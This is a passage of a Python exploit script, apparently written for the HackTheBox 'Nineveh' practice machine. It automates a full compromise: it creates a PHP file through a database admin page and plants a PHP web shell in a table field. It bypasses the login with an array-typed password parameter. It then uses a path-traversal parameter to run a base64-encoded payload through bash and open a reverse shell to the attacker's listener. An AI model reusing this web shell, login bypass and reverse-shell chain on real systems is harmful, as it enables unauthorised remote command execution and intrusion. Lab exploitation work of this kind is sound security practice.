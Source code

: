 ```py
    # Create the new database
    data = {"new_dbname": "0x4rt3mis.php"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    # Change the database
    url = "https://" + rhost + ":443/db/index.php?switchdb=%2Fvar%2Ftmp%2F0x4rt3mis.php"
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Create table
    url = "https://" + rhost + ":443/db/index.php?action=table_create"
    data = {"tablename": "shell", "tablefields": "1", "createtable": "Go"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    # Inject Malicious PHP
    url = "https://%s:443/db/index.php?action=table_create&confirm=1" %rhost
    data = {"tablename": "shell", "rows": "1", "0_field": "shell", "0_type": "TEXT", "0_defaultvalue": "<?php system($_REQUEST[\"cmd\"]); ?>"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    print("[+] File Created, let's call it to get the reverse shell !! [+]")

# Let's login as admin on the app
def LoginAdmin(rhost):
    print("[+] Let's login as admin ! [+]")
    url = "http://%s:80/department/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "123"}
    r.post(url, headers=headers, data=data, proxies=proxies, verify=False)
    print("[+] Logged In !! [+]")

def getReverse(rhost,lhost,payload):
    print("[+] Let's get the reverse shell !! [+]")
    payload = urllib.parse.quote(payload, safe='')
    url = "http://%s:80/department/manage.php?notes=/ninevehNotes/../var/tmp/0x4rt3mis.php&cmd=echo+%s+|+base64+-d+|+bash" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nineveh AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the payload
    createPayload(lhost,lport)
    # Create php file
    CreatePHP(rhost)
    # Login as admin
    LoginAdmin(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost,payload)

if __name__ == '__main__':
    main()
```